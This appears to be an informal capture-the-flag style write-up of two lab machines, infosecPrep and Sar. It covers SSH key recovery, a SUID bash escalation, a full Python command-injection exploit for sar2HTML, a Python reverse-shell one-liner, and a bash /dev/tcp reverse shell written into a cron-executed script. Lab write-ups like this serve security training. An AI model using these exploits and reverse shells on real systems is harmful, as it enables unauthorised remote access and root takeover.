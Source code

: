 # infosecPrep
- first of all i scann the open port with nmap
  1. 22 and 80 port is open
  2. with nmap option you can see the file that belongs to the website : robots.txt, secret.txt
  3. open the file secret.txt && decode it to the base64 (cause have equal in end of file)
- connect to the ssh using private key
```
  ssh -i private_key oscp@ip_address
```
- checking the file system using linePeas
  1. you will see /bin/bash have SUID bash binary
  2. after execute it with option -p you will bcome the root

[My refference about privilege escalation](https://delinea.com/blog/linux-privilege-escalation#:~:text=On%20Linux%20systems%2C%20privilege%20escalation,system%20account%20with%20limited%20privileges.)

# sar machine
  - after scanning port i don't see anything important
  - so by curiousity i try to enter to robots.txt then sar2HTML
  - the top left corner i see the version of something that i don't know 
  - i search for sar2html with the version in site google show up her the db for exploit
 
 ```
 import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)

def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()

if __name__ == ("__main__"):
    terminal = Terminal()
    terminal.cmdloop()
 ```
  - i run this code to insert in it **reverse shell** (python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip_adress",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])')
  - and listen to the port 
  - now i have access to it
  - using linPeas script you will there is a file inside crontab run every 5 minute 
  - the file that execute it have inside it another file that we have the access to it
  - we insert in write.sh ** bash -i >& /dev/tcp/192.168.1.65/9999 0>&1 ** and listen to 9999
  - now wh have the access to the root
  
  # im not fammiliar with this type of write up && the deadline is almost finish , that's why i wrote it like that !!
